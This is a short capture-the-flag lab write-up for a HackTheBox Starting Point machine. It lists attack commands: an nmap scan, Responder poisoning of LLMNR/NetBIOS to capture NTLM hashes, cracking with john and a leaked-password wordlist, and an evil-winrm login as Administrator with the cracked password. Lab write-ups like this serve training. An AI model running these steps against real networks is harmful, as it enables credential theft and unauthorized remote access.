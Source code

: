 # Overview
**Difficulty:** Very Easy  
**Skills:** RFI, responder, ntlm-relay, password cracking, winrm  
**HTB Link:** https://app.hackthebox.com/starting-point  
**Summary:** Capture NTLM via LLMNR/NetBIOS poisoning and RFI, crack NTLM hash, log to WinRM to obtain admin shell.

---

# Steps

## 1. Reconnaissance
### port scan
- [nmap scan](./evidences/nmap.txt)  
- `nmap -sV unika.htb -oN nmap.txt`  
- Apache web server on port `80/tcp`  
- WinRM server on port `5985/tcp`

---

## 2. Resource Development
### Responder tool
- [NTLM hash](./evidences/ntlm_hash.png)  
- `responder -I tun0`  
- Listening for LLMNR/NetBIOS name resolution requests, to capture NTLM challenge hash (username:MD4 hash of password).

---

## 3. Initial Access
### Remote File Intrusion (RFI)
- [RFI command](./evidences/remote_file_intrusion.png)
- triggers the LLMNR/NetBIOS Name Resolution Request.  
- We get from responder the [NTLM hash](./evidences/hash.txt)

### Hash Crack
- [NTLM hash cracked](./evidences/hash_cracking.png)  
- `john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-75.txt ./evidences/hash.txt`

### WinRM Access
- [WinRM shell access](./evidences/WinRM_access.png)  
- `evil-winrm -i unika.htb -u Administrator -p badminton`

---

## 4. Privilege Escalation
- [root flag](./evidences/root_flag.png)  
- `cat C:\Users\mike\Desktop\flag.txt`
